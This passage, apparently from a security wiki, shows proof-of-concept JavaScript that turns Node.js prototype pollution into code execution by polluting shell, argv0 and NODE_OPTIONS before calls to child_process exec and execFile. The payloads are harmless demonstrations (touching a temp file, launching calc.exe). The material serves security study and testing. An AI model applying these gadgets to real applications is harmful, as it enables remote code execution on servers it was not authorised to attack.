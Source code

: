 ```
```
```
## PP2RCE vuln child_process functions

In this section where are going to analyse **each function from `child_process`** to execute code and see if we can use any technique to force that function to execute code:


**`exec` exploitation**


```javascript
// environ trick - not working
// It's not possible to pollute the .env attr to create a first env var
// because options.env is null (not undefined)

// cmdline trick - working with small variation
// Working after kEmptyObject (fix)
const { exec } = require("child_process")
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 =
  "console.log(require('child_process').execSync('touch /tmp/exec-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = exec("something")

// stdin trick - not working
// Not using stdin

// Windows
// Working after kEmptyObject (fix)
const { exec } = require("child_process")
p = {}
p.__proto__.shell = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
var proc = exec("something")
```
```



****`execFile` exploitation****


```javascript
// environ trick - not working
// It's not possible to pollute the .en attr to create a first env var

// cmdline trick - working with a big requirement
// Working after kEmptyObject (fix)
const { execFile } = require("child_process")
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 =
  "console.log(require('child_process').execSync('touch /tmp/execFile-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = execFile("/usr/bin/node")

// stdin trick - not working
// Not using stdin

// Windows - not working
```
```
For **`execFile`** to work it **MUST execute node** for the NODE_OPTIONS to work.\
```